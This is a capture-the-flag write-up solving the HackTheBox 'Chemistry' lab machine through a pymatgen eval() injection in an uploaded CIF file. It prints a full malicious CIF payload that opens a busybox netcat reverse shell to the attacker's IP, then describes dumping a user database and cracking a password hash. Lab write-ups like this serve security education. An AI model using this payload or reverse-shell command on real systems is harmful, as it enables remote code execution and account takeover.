# Hi! Here I'll explain how i managed to solve Chemistry machine from HTB plaform.
First, let's as usual add IP to /etc/hosts file.



No let's scan machine with nmap scanner.



We can see, that 22 and 5000 ports are opened.
Let's visit http://chem.htb:5000



It seems like we can upload some CIF files here, which can possible tell us about first attack vector - file upload.

Let's pass registration form and drive deep into functionality of this web-page.



As i said earlier, we can upload here CIF files. Crystallographic Information File (CIF) is a standard text file format for representing crystallographic information. Let's download example of file, which we can upload and explore it's code.




It doesn't tell us much tbh.
For me next step was trying to understand, which file extensions I can upload. If I can upload .php files, it possibly can give me reverse shell. But none of extensions besides .cif. I tried to bypass both whitelist and blacklist techniques with Burp Intruder, but it didn't help either.







After I tried to google some public known vulnerabilities in CIF-files code. And found [this](https://github.com/materialsproject/pymatgen/security/advisories/GHSA-vgv8-5cpj-qj2f).



As we can see, this PoC tells us, that we can use vulnerability in code of pymatgen python lib to run commands on server's backend. Pymatgen is an analytical tool that can study materials such as metals, polymers, and crystals. However, a recent security vulnerability exists in one of its methods threatens the integrity of pymatgen's use to take a description of how a material is transformed and turned into a language the computer can understand and work with.
This vulnerability allows the execution of arbitrary code when processing untrusted input, as the method insecurely utilizes `eval()`. 

`eval()` is a function to execute arbitrary Python code, giving room for code injection attacks in the system .So, we can try to get reverse shell by running netcat commands. [Here](https://www.revshells.com/) you can find custom different payloads for different target systems. But interesting thing is that i tried almost every payload type, but it didn't work. The reason was in spaces in CIF file code. When I removed them, all worked correctly. Let's take close look at code of payload file.
```
data_Example
_cell_length_a    10.00000
_cell_length_b    10.00000
_cell_length_c    10.00000
_cell_angle_alpha 90.00000
_cell_angle_beta  90.00000
_cell_angle_gamma 90.00000
_symmetry_space_group_name_H-M 'P 1'
loop_
 _atom_site_label
 _atom_site_fract_x
 _atom_site_fract_y
 _atom_site_fract_z
 _atom_site_occupancy
 H 0.00000 0.00000 0.00000 1
 O 0.50000 0.50000 0.50000 1
 _space_group_magn.transform_BNS_Pp_abc  'a,b,[d for d in ().__class__.__mro__[1].__getattribute__ ( *[().__class__.__mro__[1]]+["__sub" + "classes__"]) () if d.__name__ == "BuiltinImporter"][0].load_module ("os").system ("busybox nc 10.10.16.54 4444 -e /bin/bash");0,0,0'
_space_group_magn.number_BNS  62.448
_space_group_magn.name_BNS  "P  n'  m  a'  "
```

Here we try to execute command "```busybox nc 10.10.16.54 4444 -e /bin/bash```" in order to get reverse shell to our machine.
Let's upload file with this code.



And now we can click 'view', but before let's run netcat in listening mode on 4444 port.



Great! We've got RCE. Let's explore target file system.



We don't have enough rights to cat user.txt. Ok, let's explore more. 




We can see interesting .db file, which we can read using sqlite3 client.
Here we can find users table with username and hash in it.



Earlier we saw rosa home directory, let's try to crack her password using [CrackStation](https://crackstation.net/).



And now let's try to use ssh to connect under rosa user.



Cool! We can cat user.txt and get user flag :)
